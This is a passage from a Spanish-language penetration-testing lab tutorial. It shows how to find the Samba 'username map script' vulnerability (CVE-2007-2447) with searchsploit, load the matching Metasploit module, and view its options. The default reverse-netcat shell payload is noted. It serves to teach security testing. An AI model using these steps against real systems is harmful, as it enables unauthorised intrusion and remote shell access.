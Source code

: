 6. Ahora lee el archivo hasta la parte de **CVE** con _cat_ o _less_ (o cualquier otra forma de leer el archivo), vamos a copiarlo, será la llave de búsqueda en _Metasploit_:

```sh
$> cat 16320.rb
...
'Author'         => [ 'jduck' ],
'License'        => MSF_LICENSE,
'Version'        => '$Revision: 10040 $',
'References'     =>
        [
                [ 'CVE', '2007-2447' ],
                [ 'OSVDB', '34700' ],
                [ 'BID', '23972' ],
                [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
        ],
'Platform'       => ['unix'],
'Arch'           => ARCH_CMD,
...
```

El dato es _2007-2447_.

> Nota: No es necesario "descargar" el archivo, recuerda que con _searchsploit -x [path_al_archivo]_ puedes ver el contenido.

7. Iniciamos _Metasploit_ y buscamos con el comando _search_ el CVE y luego usamos el módulo:

```sh
msf6 > search 2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > 
```

8. Ahora mostramos las opciones de configuración antes de ejecutar el exploit, notaremos algo en las opciones del _payload_, la palabra _reverse_; cuando un _payload_ es del tipo _reverse_, el ataque lo hace ejecutando un comando _desde el host víctima a nuestro Kali Linux_:

```sh
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                       tasploit.html
   RPORT    139              yes       The target port (TCP)
```